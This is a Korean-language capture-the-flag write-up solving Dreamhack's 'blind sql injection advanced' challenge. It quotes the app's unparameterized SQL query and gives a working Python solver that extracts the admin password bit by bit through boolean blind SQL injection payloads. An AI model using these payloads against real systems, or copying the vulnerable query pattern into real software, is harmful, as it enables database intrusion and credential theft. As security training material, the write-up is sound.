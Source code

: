 ```yaml
---
title: "드림핵 lv.2 - blind sql injection advanced"
date: 2025-02-28 00:00:00 +0800
categories: [Wargame, Dreamhack]
tags: [cyber security, writeup, dreamhack, web hacking, blind sql injection] 
description: 드림핵 blind sql injection advanced 웹해킹 워게임 풀이
---
```


[https://dreamhack.io/wargame/challenges/411](https://dreamhack.io/wargame/challenges/411)
# 문제 설명
Exercise: Blind SQL Injection Advanced에서 실습하는 문제입니다.  
**관리자의 비밀번호는 "아스키코드"와 "한글"로 구성되어 있습니다.**

---
# 문제 풀이
## 웹사이트 분석
사이트에 접속해보면 `SELECT * FROM users WHERE uid='';` 문자열이 뜨고 그 아래에 `uid`의 값을 입력할 수 있는 Input box와 submit 버튼이 보인다. <br />


인풋에 값을 입력하면 쿼리의 `uid=''` 사이에 들어가는 것이 분명하다. 그리고 문제 제목을 보면 Blind SQLI를 이용해서 해결하는 문제라는 것도 분명하다. <br />

본격적으로 문제를 풀기 이전에 좀 더 많은 정보를 위해서 코드도 살펴보자.
## 코드 분석
```
[Code Structure]
deploy/
	- app.py
	- init.sql
	- requirements.txt
	- run.sh
DockerFile
```
### app.py
```python
@app.route('/', methods=['GET'])
def index():
    uid = request.args.get('uid', '')
    nrows = 0

    if uid:
        cur = mysql.connection.cursor()
        nrows = cur.execute(f"SELECT * FROM users WHERE uid='{uid}';")

    return render_template_string(template, uid=uid, nrows=nrows)
```
 다른 부분들은 HTML 관련이라서 라우터 부분만 가져왔다.<br />
 예상대로 유저로부터 받은 `uid` 값을 필터링하지 않기 때문에 인젝션 공격에 굉장히 취약하다.
### DockerFile
```docker
...

# DB
RUN /bin/bash -c "/usr/bin/mysqld_safe &" && \
  sleep 5 && \
  mysql -uroot < /app/init.sql
RUN rm /app/init.sql

...
```
### init.sql
```sql
CREATE DATABASE user_db CHARACTER SET utf8;
GRANT ALL PRIVILEGES ON user_db.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `user_db`;
CREATE TABLE users (
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO users (uid, upw) values ('admin', 'DH{**FLAG**}');
INSERT INTO users (uid, upw) values ('guest', 'guest');
INSERT INTO users (uid, upw) values ('test', 'test');
FLUSH PRIVILEGES;
```
`DockerFile`을 보면 서버가 실행될 때 `init.sql`이 함께 실행된다.<br />
SQL 코드를 보면 `users`라는 테이블이 하나 생성되고 그 안에 샘플 유저 값들이 입력되는데 admin이라는 유저의 비밀번호가 플래그임을 보여준다.
## 최종 풀이
```sql
SELECT * FROM users WHERE uid='';
```
결론적으로 우리가 해야할 것은 위의 쿼리를 이용해서 비밀번호를 알아내야한다. <br />
### 테스트
```
user "admin' and substr(upw, 1, 1)='D' -- " exists.
```
우선 테스트용으로 `admin' and substr(upw, 1, 1)='D' -- `를 입력해서 유저를 얻어올 수 있는지 체크가 필요하다.<br />
다행히도 해당 유저가 존재한다고 출력이 된다. 유저의 비밀번호가 'D'로 시작하는 것은 `init.sql`에서 알 수 있다.
### 문제점
이제 익스플로잇을 작성하고 brute forcing 하면 되는데 문제가 있다. <br />

문제를 읽어보면 비밀번호는 아스키코드와 **한글**로 이루어져 있다고 한다. 아스키코드는 완전 탐색으로 하던 이진 탐색으로 하던 그럭저럭 할만한데 한글은 가능한 경우의 수만 1만개가 넘는다. (utf-8 언어셋의 한글은 11,172개가 있다고 한다.)<br />

그래서 여기서 사용하면 좋을 방법은 비트 연산을 이용한 풀이이다.
### 비밀번호 길이 구하기
본격적으로 시작하기 이전에 비밀번호의 길이를 먼저 알아내는게 좋다.
```python
class Solver:
    def __init__(self):
        self.url = "http://host1.dreamhack.games:15103/?uid="
        self.length = 0
    
    def _getPWLength(self):
        for length in range(1, 100):
            query = f"admin' and char_length(upw) = {length} -- "
            resp = requests.get(self.url + query)

            if "exists" in resp.text:
                self.length = length
                break

    def solve(self):
        self._getPWLength()
        print(self.length)
```
해당 코드를 실행해주면 비밀번호 길이로 13이 나오게된다.
### 비밀번호의 각 문자마다 비트 수 알아내기
아스키 문자로만 이루어져있다면 비트 수가 7로 고정이지만 이 경우에는 그렇지 않다 그래서 모든 문자마다 비트열이 어떤지 알아내는 과정이 필요하다.

```python
def _getBitLengths(self):
	for i in range(1, self.length + 1):
		bitLength = 0

		while True:
			bitLength += 1
			query = f"admin' and length(bin(ord(substr(upw, {i}, 1)))) = {bitLength} -- "
			resp = requests.get(self.url + query)
			if "exists" in resp.text:
				self.bitLens.append(bitLength)
				break

def solve(self):
	self._getPWLength()
	print(self.length)
	self._getBitLengths()
	print(self.bitLens)
```
### 비밀번호의 각 문자마다 비트열 알아내기
```python
def _getBitStrings(self):
	for i, bitLength in enumerate(self.bitLens):
		bits = ""
		for j in range(1, bitLength + 1):
			query = f"admin' and substr(bin(ord(substr(upw, {i + 1}, 1))), {j}, 1) = '1' -- "
			resp = requests.get(self.url + query)

			if "exists" in resp.text:
				bits += '1'
			else:
				bits += '0'
			
		self.bits.append(bits)

def solve(self):
	self._getBitStrings()
	print(self.bits)
```
### 최종 비밀번호 알아내기
```python
def _getActualChar(self):
	for i in range(0, self.length):
		byte = int.to_bytes(int(self.bits[i], 2), (self.bitLens[i] + 7) // 8, "big")
		byteInt = int.from_bytes(byte, "big")

		if byteInt > 127: 
			self.result += byte.decode("utf-8")
		else:
			print(byteInt)
			self.result += chr(byteInt)

def solve(self):
	self._getActualChar()
	print(self.result)
```
이렇게 마지막 코드를 실행하게 되면 최종 비밀번호를 얻을 수 있게 된다. 비밀번호의 형식 자체가 `DH{}` 플래그 형식이라 곧바로 제출하면 끝이다.<br />

아스키 문자와 한글로 이루어져 있다고 했는데 사실상 `DH{}`와 특수 문자 2개를 제외하고는 모두 다 한글이었다.
# 배운 것
비트 문자열을 숫자 그리고 문자로 변환하는 방법에 대해 알게됐다. 특히나 utf-8와 관련해서 말이다.
